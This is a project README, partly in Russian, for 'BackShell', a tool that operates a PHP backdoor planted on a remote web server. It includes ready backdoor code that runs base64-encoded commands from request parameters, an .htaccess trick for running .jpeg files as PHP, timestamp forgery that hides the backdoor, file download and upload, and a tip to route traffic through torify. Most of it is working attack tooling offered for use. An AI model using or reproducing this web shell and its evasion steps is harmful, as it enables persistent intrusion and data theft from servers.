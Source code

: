 # BackShell by tz4678

Command-line tool for backdoor exploitation.

Этот скрипт может быть полезен не только для мамкиных крякеров, но и для фрилансеров, которые хотят обезопасить себя от кидалова со стороны жуликоватых заказчиков из числа выходцев из СНГ.

```zsh
$ pip install backshell

$ backshell 'https://vuln.com/path/to/backdoor.php'
 ____             _     ____  _          _ _
| __ )  __ _  ___| | __/ ___|| |__   ___| | |
|  _ \ / _` |/ __| |/ /\___ \| '_ \ / _ \ | |
| |_) | (_| | (__|   <  ___) | | | |  __/ | |
|____/ \__,_|\___|_|\_\|____/|_| |_|\___|_|_|
v0.1.1 by tz4678

Type 'help' for more information.
backshell> touch -a -m -t 201705030100.12 backdoor.php

backshell> ls -lah
total 36K
drwxr-xr-x  5 <vanished> <vanished> 4.0K Aug  4 00:26 .
drwxr-xr-x 18 <vanished> <vanished> 4.0K Jan 17  2018 ..
-rw-r--r--  1 <vanished> <vanished>  533 May  3  2017 .jshintrc
-rw-r--r--  1 <vanished> <vanished> 2.7K May  3  2017 Gruntfile.js
-rw-r--r--  1 <vanished> <vanished>   47 May  3  2017 backdoor.php
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 images
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 js
-rw-r--r--  1 <vanished> <vanished>  466 May  3  2017 package.json
drwxr-xr-x  2 <vanished> <vanished> 4.0K May  3  2017 resource

backshell> ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
<vanished>  786766  0.1  0.0 382984 24116 ?        Ss   00:45   0:00 lsphp
<vanished>  787446  0.0  0.0 383416 10240 ?        Ss   00:46   0:00 <vanished>
<vanished>  787447  0.0  0.0   9776  1140 ?        S    00:46   0:00 sh -c ps -aux 2>&1
<vanished>  787448  0.0  0.0  49836  1652 ?        R    00:46   0:00 ps -aux

backshell> exit
```

Backdoor example:

```php
<?php @passthru(base64_decode($_REQUEST['c']));
```

Base64 нужен для обхода `magic_quotes_gpc = On`, который до сих пор много где включен, а так же для работы с бинарными данными в Node.js и т.п.

Такой простой бекдор, конечно, быстро спалят.

`.htaccess`:

```htaccess
AddType application/x-httpd-php .jpeg
```

Теперь файлы с расширением `.jpeg` будут выполняться как php.

## Examples

```zsh
# Help
backshell> help

# Download file from server
backshell> download config.php
Saved as XXXX.config.php

# Upload file to server
backshell> upload script.php

# Edit file on server
backshell> edit index.php
```

## Ограничения

Так как каждый раз запускается новая сессия шелл, то такие команды как `cd` работают не так как ожидается:

```zsh
backshell> cd /tmp; echo $PWD
/tmp

backshell> pwd
/path/to/backdoor
```

Решения:

- При запуске backshell указывать аргумент `--cwd`;
- Использовать команду шелла `cwd`.

Так же не будут работать интерактивные команды типа `less` и др.

Ограничение на длинну команды:

```zsh
$ getconf ARG_MAX
2097152
```

Чтобы скачать файл большого размера либо каталог, упакуйте его с помощью tar, переместите его в ассеты и выкачайте архив curl/wget.

Вызов команды edit при работе через torify приводит к ошибке:

```zsh
1596550567 WARNING torsocks[373221]: [syscall] Unsupported syscall number 217. Denying the call (in tsocks_syscall() at syscall.c:567)
```

Это баг torsocks и хз когда его исправят.
